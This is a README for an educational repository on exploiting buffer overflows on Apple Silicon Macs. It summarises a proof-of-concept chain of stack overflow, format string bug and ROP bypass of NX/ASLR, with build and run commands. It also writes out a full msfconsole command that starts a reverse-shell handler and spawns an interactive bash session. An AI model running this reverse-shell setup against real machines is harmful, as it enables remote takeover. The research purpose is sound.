 ## 📄 Project Overview

This repository contains the code and materials for the report titled “Exploiting Buffer Overflows on Apple M-Series Macs,” which demonstrates a proof-of-concept exploit on a vulnerable C program running on macOS (AArch64, Apple Silicon).

The exploit showcases:

- Stack-based buffer overflow
- Format string vulnerability
- ROP-based bypass of NX and ASLR
- Execution of payloads (Calculator, reverse shell)

> **Tested on:**
>
> - macOS Sequoia 15.5
> - Apple M3 MacBook Pro / M4 Mac mini
> - AArch64 (ARM64) architecture
> - ASLR / NX enabled (default security settings)

The report is included below for reference.

[📄 Download Report (PDF)](./report.pdf)

## ⚠ Disclaimer

This repository is intended for educational and research purposes only.  
The code demonstrates exploitation techniques in a controlled environment using an intentionally vulnerable binary.

**Use at your own risk.**  
The author is not responsible for any damage, misuse, or unintended consequences resulting from the use of this code.

Always review and understand the payloads and their effects before running them on any system.

## 🔧 Build Instructions

To compile the vulnerable binary (tested with Clang 17.0.0):

```
clang -o vulnerable main.c
```

## 🚀 Exploit Execution

To run the exploit (ensure Python 3 and pwntools are installed):

Install pwntools: `pip install pwntools`

```
python exploit.py
```

## 🛠 Reverse Shell Setup (optional)

To prepare a listener for the reverse shell payload, start msfconsole with the following command:

```
msfconsole -q -x "use exploit/multi/handler; \
  set payload osx/aarch64/shell_reverse_tcp; \
  set LHOST 127.0.0.1; \
  set LPORT 4444; \
  exploit -z; \
  sessions -1 -c \"python3 -c 'exec(\\\"\\\"\\\"import pty\npty.spawn(\\\"/bin/bash\\\")\\\"\\\"\\\")'\"; \
  sessions -1"
```

## 📝 License

This project is licensed under the [MIT License](./LICENSE).
